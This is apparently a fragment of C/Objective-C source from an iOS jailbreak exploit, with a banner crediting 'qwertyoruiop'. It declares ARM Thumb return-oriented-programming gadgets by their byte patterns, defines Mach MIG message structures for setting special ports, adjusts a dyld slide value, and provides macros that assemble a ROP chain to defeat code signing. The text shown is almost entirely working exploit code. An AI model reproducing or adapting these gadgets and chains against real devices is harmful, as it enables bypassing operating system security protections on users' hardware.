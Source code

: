     
    DeclGadget(ldr_r0_r0_8_pop_r7pc, (&(char[]){0x80,0x68,0x80,0xbd}), 4);
    DeclGadget(str_r0_r4_8_pop_r4r7pc, (&(char[]){0xa0,0x60,0x90,0xbd}), 4);
    DeclGadget(bx_r2_pop_r4r5r7pc, (&(char[]){0x10,0x47,0xb0,0xbd}), 4);
    DeclGadget(bx_r2_add_sp_40_pop_r8r10r11r4r5r6r7pc, (&(char[]){0x10,0x47,0x10,0xB0,0xBD,0xE8,0x00,0x0D,0xF0,0xBD}), 10);
    DeclGadget(pop_r0r1r3r4r7pc, (&(char[]){0xab,0xbd}), 2);
    
    //  DeclGadget(pop_r0r1r2r4r5pc, (&(char[]){0x37,0xbd}), 2);
    
    DeclGadget(pop_r0r1r2r3r5r7pc, (&(char[]){0xaf,0xbd}), 2);
    
#pragma pack(4)
    struct mig_set_special_port_req {
        mach_msg_header_t Head;
        
        mach_msg_body_t msgh_body;
        mach_msg_port_descriptor_t port;
        
        NDR_record_t NDR;
        int which;
    }  __attribute__((unused));
    
#pragma pack()
#pragma pack(4)
    
    struct mig_set_special_port_rep {
        mach_msg_header_t Head;
        NDR_record_t NDR;
        kern_return_t RetCode;
        mach_msg_trailer_t trailer;
    }  __attribute__((unused));
    
#pragma pack()
#pragma pack(4)
    struct mig_set_special_port___rep
    {
        mach_msg_header_t Head;
        NDR_record_t NDR;
        kern_return_t RetCode;
    }  __attribute__((unused));
#pragma pack()
    
    [dy setSlide:-[dy base] + 0x50000000];
    
#define InitMessage  "#yalubreek #unthreadedjb! lol code signatures! %d -qwertyoruiop\n"
    
#define StoreR0(push, where) \
push = (uint32_t)pop_r4r7pc;\
push = ((uint32_t)where) - 8;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch
    
#define Shift2R0(push) \
push = (uint32_t)lsrs_r0_2_popr4r5r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)0x45454545;\
push = (uint32_t)m_m_scratch
    